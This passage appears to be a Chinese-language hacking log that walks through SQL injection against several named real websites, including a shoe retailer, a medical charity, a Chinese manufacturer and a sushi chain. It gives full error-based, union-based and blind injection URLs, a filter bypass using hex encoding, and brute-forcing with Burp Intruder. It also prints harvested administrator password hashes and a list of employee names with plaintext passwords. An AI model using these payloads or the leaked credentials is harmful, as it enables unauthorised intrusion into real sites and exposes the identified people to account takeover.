**uid,tab_name,sub,th_title,th_detail,th_remark1,odr,status,upddate,date**

###### 4、查询数据信息

```
https://nong.bnbhl.net/news.php?id=561' or  (updatexml(1,concat(0x7e,(substr((select group_concat(tab_name,'---',sub) from uni_albumlist),1,30)),0x7e),1)) or '
```

**ibiyaya---1,pang---1,pang---1pang---1,pang---1,pang---1,ibiyaya---1,ibiyaya---1,ibiyaya1,ibiyaya---1,ibiyaya---1,ibiyaya---1,ibiyaya---1,ibiyaya**

找不到网站后台的账号密码，有可能账号密码没有存进数据库，有可能该网站没有后台


##### 5>耿毛1家(报错注入-字符型)

**网址：**

```
https://kengmao.elbnb.com/
```

有数据库报错信息，初步判断可以使用报错注入

###### 1、查询数据库名

```
https://kengmao.elbnb.com/news.php?id=505' or (updatexml(1,concat(0x7e,(select database()),0x7e),1)) or ' --+
```

**elbnbcom_unidatabase**

###### 2、查询数据表名

```
https://kengmao.elbnb.com/news.php?id=505' or (updatexml(1,concat(0x7e,(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),1,30)),0x7e),1)) or '
```

**uni_albumlist,uni_albumphoto,uni_bbs,uni_news,uni_room,uni_roomqty,uni_setting**

###### 3、查询数据列名

```
https://kengmao.elbnb.com/news.php?id=505' or  (updatexml(1,concat(0x7e,(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x756e695f616c62756d6c697374),1,30)),0x7e),1)) or '
```

**uid,tab_name,sub,th_title,th_detail,th_remark1,odr,status,upddate,date**

###### 4、查询数据信息

```
https://kengmao.elbnb.com/news.php?id=505' or  (updatexml(1,concat(0x7e,(substr((select group_concat(tab_name,'---',sub) from uni_albumlist),1,30)),0x7e),1)) or '
```

**chengshine---1,chengshine---2,c123---2,c123---1,c123---2,c123---2,c123---2,c123---2,c123**

找不到网站后台的账号密码，有可能账号密码没有存进数据库，有可能该网站没有后台


##### 6>Bradford Shoes(回显注入-数字型)

**网址：**

```
https://www.bradfordshoes.com/
```

初步判断可以使用回显注入

该网站屏蔽了单引号，所以需要进行十六进制转换等绕过方式

###### 1、判断类型

```
https://www.bradfordshoes.com/product.php?cat_id=24/24
```

 跳转到id=1，说明是int类型

###### 2、判断字段数量

```
https://www.bradfordshoes.com/product.php?cat_id=24 order by 39 --+

https://www.bradfordshoes.com/product.php?cat_id=-24 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39 --+
```

4 是有回显的

###### 3、查询数据库名

```
https://www.bradfordshoes.com/product.php?cat_id=-24 union select 1,2,3,database(),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39 --+
```

**bradford_db**

###### 4、查询数据表名

```
https://www.bradfordshoes.com/product.php?cat_id=-24 union select 1,2,3,group_concat(table_name),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39 from information_schema.tables where table_schema=0x62726164666f72645f6462 --+
```

**tbl_email_notification,tbl_administrators,tbl_currency_converter,tbl_order_details,tbl_background,tbl_shipping,tbl_other_banner,tbl_location,tbl_product_height,tbl_discount_codes,tbl_store,tbl_testimonials,tbl_email_cc,tbl_affiliates,tbl_product_reviews,tbl_media,tbl_affiliates_icon,tbl_banner,tbl_product,tbl_product_category,tbl_registered_customers,tbl_sitepages,tbl_meta_tags,tbl_faq,tbl_user_type,tbl_product_color,tbl_promo,tbl_follow_us,tbl_discount_code**

###### 5、查询数据列名

```
https://www.bradfordshoes.com/product.php?cat_id=-24 union select 1,2,3,group_concat(column_name),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39 from information_schema.columns where table_name=0x74626c5f61646d696e6973747261746f7273 --+
```

**administrator_id,username,password,firstname,lastname,email_address,user_type_id,is_active,varkey,datetime_created**

###### 6、查询数据信息

```
https://www.bradfordshoes.com/product.php?cat_id=-24 union select 1,2,3,concat(username,password),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39 from tbl_administrators --+
```

**bradfordshoes1YUoXkrcUppu1vTYrlTNHEa5xO9qU3ySCc/PM+GPPw==**

**cristinaproVIEPVm5B3W57mgYWVFMDE8aFnDezYQfwaGWrQD/2**

**cristinamktUPh+dhEHdIc9gZ8kU1DeIXOt6pLobkIGre28O95H**

**jessicazYqleq3jGcss/F8Xo2keDmo0B5+aI/eO7b0wEw==**

**marcs21Kb50isw8T61t3tL5QNZMV7CEdHK/RJE2sTsBIYrf**

无可用信息


##### 7>Dysautonomia International(布尔盲注)

**网址：**

```
https://www.dysautonomiainternational.org/page.php?ID=1
```

判断注入类型

```
https://www.dysautonomiainternational.org/page.php?ID=1 and 1=1 

https://www.dysautonomiainternational.org/page.php?ID=1 and 1=2
```

网站显示Not Acceptable！

则证明网站有云防火墙（WAF)识别关键字进行阻拦

那我们试一试 and 1

为真，可以正常回显

​            and 0

为假，不能正常回显则说明有布尔盲注

**这里先回顾一下ASCII码，97是a，ASCII码一共有127位.**

###### 1、判断布尔盲注

(length(database())>0)为永真值，如若有回显则可使用布尔盲注

```
https://www.dysautonomiainternational.org/page.php?ID=1/(length(database())>0) --+
```

###### 2、判断数据库长度

```
https://www.dysautonomiainternational.org/page.php?ID=1/(length(database())=0) --+
```

用BP把0设成注入点用Intruder进行爆破，payload type选择numbers
from 1 to 20 step 1

这里可以直接从http history按ctrl+i跳转进Intruder进行爆破,不用一直重新抓取

为15

###### 3、查询数据库名

提取出数据库名每一个字符的ASCII码

```
https://www.dysautonomiainternational.org/page.php?ID=1/(ord(substr(lower(database()),1,1))-96) --+
```

将数据库名变成小写并截取数据库名从第一个位置开始的第一个字符再转化为ASCII码并减去96（如果第一个字符为a则97-96=1 ，1/1返回正常页面否则返回错误页面，没有显示）

用BP的cluster bomb

1 numbers
from 1 to 15 step 1
2 numbers
from 1 to 127 step 1

开始爆破

得出来的减去的ASCII码需要再+1才是数据库字符的ASCII码

数据库名：**bluewaz7_dysint**

###### 4、查询数据表名

```
https://www.dysautonomiainternational.org/page.php?ID=1/(ord(substr( (select group_concat(table_name) from information_schema.tables where table_schema=database()) ,1,1))>0) --+
```

未完善

##### 8>山东百隆新材料有限公司(回显注入-数字型)

**网址：**

```
www.shandongbailong.com
```

###### 1、查询数据库名

```
http://www.shandongbailong.com/en/product.php?id=25 order by 17

http://www.shandongbailong.com/en/product.php?id=25 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17

7 回显

http://www.shandongbailong.com/en/product.php?id=25 union select 1,2,3,4,5,6,database(),8,9,10,11,12,13,14,15,16,17
```

**数据库名：**

**bdm817514470_db**

###### 2、查询数据表名

```
http://www.shandongbailong.com/en/product.php?id=25 union select 1,2,3,4,5,6,group_concat(table_name),8,9,10,11,12,13,14,15,16,17 from information_schema.tables  where table_schema=database()
```

**数据表名：banner,bj,bm,clbb,clmx,clnd,clpm,clyd,cmz,contact,cp,cplb,lx,news,pass,rz,wx,yljg,ylm1,zzq_jl,zzq_main,zzq_mx,zzq_mycy**

**挑出最有可能有账号密码的数据表：pass**(十六进制为70617373)

###### 3、查询数据列名

```
http://www.shandongbailong.com/en/product.php?id=25 union select 1,2,3,4,5,6,group_concat(column_name),8,9,10,11,12,13,14,15,16,17 from information_schema.columns  where table_schema=database() and table_name=0x70617373
```

**数据列名：**

**ID,bm,bmid,name,pass,px,fg,fgid,fgbz,fgbzid,qx,qx2,openid,session_key,nick,avaurl,newbj**

###### 4、查询数据信息

```
http://www.shandongbailong.com/en/product.php?id=25 union select 1,2,3,4,5,6,group_concat(pass),8,9,10,11,12,13,14,15,group_concat(name),17 from pass

又或者

http://www.shandongbailong.com/en/product.php?id=25 union select 1,2,3,4,5,6,group_concat(name,'---',pass),8,9,10,11,12,13,14,15,16,17 from pass
```

 **数据信息：**

**吕宜营333333,尹继峰333333,刘影影abc123,鲁洪杰sdlhj2002,朱洪国805189,曹仁霞cao123456,范兆川19680209,李文华551616,孙明霞6136172,栗志123456,李清峰681001,朱秀娟123456,孔德华kongdehua,李中华123456,武勇hh123456,谷兆贺19810102,杨洋洋654321,张园601622,田秀丽888888,李敏123456,宋景明777777,罗国娟123456,周光华666666,尚培春123456,孙庆权123456,张恒顺123456,王东红720421,侯斌123456,质检部666666,李勇123456,张峰999999,孙文东123456,张成芳123456,刘庆**

##### 9>峰寿司(回显注入-数字型)

**网址：**

```
www.minesushi.com
```

###### 1、判断字符类型

```
https://www.minesushi.com/ch/news/detail.php?id=188'

https://www.minesushi.com/ch/news/detail.php?id=188"

为数字型
```

###### 2、判断字段长度并联合注入

```
https://www.minesushi.com/ch/news/detail.php?id=188 order by 26

https://www.minesushi.com/ch/news/detail.php?id=188 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

在188前面加上负号，令前语句为假，让后语句执行单独显现

https://www.minesushi.com/ch/news/detail.php?id=-188 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

	7,10,13,21 回显
```

###### 3、查询数据库名

```
https://www.minesushi.com/ch/news/detail.php?id=-188 union select 
1,2,3,4,5,6,7,8,9,10,11,12,database(),14,15,16,17,18,19,20,21,22,23,24,25,26

minesushi_hk
```

###### 4、查询数据表名

```
https://www.minesushi.com/ch/news/detail.php?id=-188 union select 1,2,3,4,5,6,7,8,9,10,11,12,group_concat(table_name),14,15,16,17,18,19,20,21,22,23,24,25,26  from information_schema.tables where table_schema='minesushi_hk'
-------
Log_Update,Manager,PDFMenu,Photos,Schedule,Setting,Sys_Budget,Sys_News,Sys_Sales,TopImage,admin_news,admin_report,admin_report_base,admin_schedule,comments,links,manager,menu,news,poll,poll_responses,public_file,questions,recruit_personal,responses,shop,shop_photo,site_manage,words
-------
```

###### 5、查询数据列名

```
https://www.minesushi.com/ch/news/detail.php?id=-188 union select 1,2,3,4,5,6,7,8,9,10,11,12,group_concat(column_name),14,15,16,17,18,19,20,21,22,23,24,25,26  from information_schema.columns where table_schema='minesushi_hk' and table_name='Manager'
-------
id,name,shop_id,manage_id,password,pages,level,is_delete,created_at,updated_at
-------
```

###### 6、查询数据信息

```
https://www.minesushi.com/ch/news/detail.php?id=-188 union select 1,2,3,4,5,6,7,8,9,10,11,12,group_concat(name),14,15,16,17,18,19,20,group_concat(password),22,23,24,25,26  from Manager

又或者

https://www.minesushi.com/ch/news/detail.php?id=-188 union select 1,2,3,4,5,6,7,8,9,10,11,12,group_concat(name,'---',password),14,15,16,17,18,19,20,21,22,23,24,25,26  from Manager
-------
Guest---9b16a4d659621a08f5e9768b7b48a2a4
鄭武憲---9cc5b0badd95818efd0cc2485dd1f23f
Recruit Admin---7479892e9b4ccc27689e5893cd147184
林春樹---38d225a811d087ce8e34ca51a98bf380
8lab---f46739d56045c2a513b1079e2e1c5e99
-------
```

###### 7、后台登录界面

```
https://www.minesushi.com/admin/login.php
```

